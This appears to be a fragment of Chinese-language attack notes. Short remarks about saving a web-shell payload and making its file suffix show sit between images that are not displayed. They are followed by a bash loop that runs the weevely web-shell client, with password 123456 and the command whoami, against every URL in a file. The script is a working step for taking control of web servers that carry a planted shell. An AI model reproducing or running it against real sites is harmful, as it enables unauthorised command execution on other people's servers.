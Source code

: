 ![64970fb97de0294769a3ee86bb397ea3.png](../../images/a75c18bff60449d38b804bd6065e0f50.png)
这行一定要取消掉，否则贼尴尬，出不来后缀名
![10431b5805674f9e3fefadde17977ba2.png](../../images/a0c1f477145340f98480580b5f377d7e.png)
保存payload后，使用shell脚本进行fuzz

```
#!/bin/bash
cat all.txt|while read url
 do
         echo $url
	 weevely $url 123456 whoami
 done
```
